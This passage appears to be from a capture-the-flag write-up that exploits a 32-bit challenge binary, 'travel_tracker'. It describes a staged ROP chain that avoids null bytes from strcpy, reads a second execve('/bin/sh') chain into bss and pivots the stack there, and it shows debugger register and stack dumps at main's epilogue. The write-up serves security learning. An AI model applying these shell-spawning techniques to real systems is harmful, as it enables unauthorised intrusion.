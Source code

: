 While locally, I could just do a `system("/bin/sh")` ropchain, it didn't work out remote, so I opted for a stage ropchain.

Since the comment will be moved to the heap via `strcpy` it must not contain any null bytes, but for an `execve("/bin/sh", 0, 0)` ropchain, I'd need some. So the first ropchain will just read the final chain into `bss` and then stack pivot there.

```
───────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x56558f80  →  0x00003e88
$ecx   : 0xf7fb49b4  →  0x00000000
$edx   : 0x1       
$esp   : 0xffffddf0  →  0xffffde30  →  0xf7fb3000  →  0x00229dac
$ebp   : 0x5655a340  →  0xf7dfb8f0  →  0xfb1e0ff3
$esi   : 0xffffded4  →  0xffffdfbf  →  "./travel_tracker"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x565564b2  →  <main+277> lea esp, [ebp-0x8]
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────── code:x86:32 ────
   0x565564a3 <main+262>       cmp    DWORD PTR [ebp-0xc], 0x5
   0x565564a7 <main+266>       jne    0x565563c4 <main+39>
   0x565564ad <main+272>       mov    eax, 0x0
 → 0x565564b2 <main+277>       lea    esp, [ebp-0x8]
   0x565564b5 <main+280>       pop    ecx
   0x565564b6 <main+281>       pop    ebx
   0x565564b7 <main+282>       pop    ebp
   0x565564b8 <main+283>       lea    esp, [ecx-0x4]
   0x565564bb <main+286>       ret    
───────────────────────────────────────────────── stack ────
0xffffddf0│+0x0000: 0xffffde30  →  0xf7fb3000  →  0x00229dac	 ← $esp
0xffffddf4│+0x0004: 0xf7fbe65c  →  0xf7ffdba0  →  0xf7fbe800  →  0xf7ffda40  →  0x56555000  →  0x464c457f
0xffffddf8│+0x0008: 0xf7fbebc0  →  0xf7da3cc6  →  "GLIBC_PRIVATE"
0xffffddfc│+0x000c: 0x00000003
0xffffde00│+0x0010: 0xffffde20  →  0x00000001
0xffffde04│+0x0014: 0xf7fb3000  →  0x00229dac
────────────────────────────────────────────────────────────
```

After `pop ecx`

```
───────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x56558f80  →  0x00003e88
$ecx   : 0xf7fb49b4  →  0x00000000
$edx   : 0x1       
$esp   : 0x5655a338  →  0x5655a344  →  0x565565e6  →  <addReview+298> pop ebp
$ebp   : 0x5655a340  →  0xf7dfb8f0  →  0xfb1e0ff3
$esi   : 0xffffded4  →  0xffffdfbf  →  "./travel_tracker"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x565564b5  →  <main+280> pop ecx
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────── code:x86:32 ────
   0x565564a7 <main+266>       jne    0x565563c4 <main+39>
   0x565564ad <main+272>       mov    eax, 0x0
   0x565564b2 <main+277>       lea    esp, [ebp-0x8]
 → 0x565564b5 <main+280>       pop    ecx
   0x565564b6 <main+281>       pop    ebx
   0x565564b7 <main+282>       pop    ebp
   0x565564b8 <main+283>       lea    esp, [ecx-0x4]
```